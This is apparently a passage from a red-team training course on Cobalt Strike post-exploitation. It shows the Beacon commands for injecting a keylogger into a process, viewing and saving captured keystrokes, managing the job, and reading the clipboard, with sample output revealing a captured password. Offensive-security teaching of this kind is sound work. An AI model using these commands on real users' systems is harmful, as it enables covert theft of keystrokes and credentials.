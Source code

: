 The Cobalt Strike keylogger will log the key presses made by the user who owns the process the post-ex capability is injected into.

```powershell
beacon> help keylogger
Use: keylogger [pid] [x86|x64]
     keylogger

Inject a keystroke logger into the specified process.

Use keylogger with no arguments to spawn a temporary process and inject the 
keystroke logger into it.

To terminate this task: use jobs to find the job ID. Use jobkill to kill it.
```

The output is not sent to the Beacon console, but a dedicated tab that can be accessed via **View > Keystrokes**.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/384ccc320c9ae9aefce666f49e61e40b.png)

You can right-click on a row and select **Save** to sync the output to a text file on your local computer, or select **Delete** to remove it altogether.

The keylogger runs as a long-term job, which can be seen with the `jobs` command and stopped with the `jobkill` command.

```powershell
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    3020  keystroke logger

beacon> jobkill 0
[+] job 0 completed
```

### Clipboard

The content of the user's clipboard can be read with the `clipboard` command.  The output, if text, is printed directly to the Beacon console.
```powershell
beacon> help clipboard
Use: clipboard

Attempts to get text clipboard contents

beacon> clipboard
[*] Tasked beacon to get clipboard contents
Clipboard Data (22 bytes):
MySup3rS3cr3tPassw0rd!
```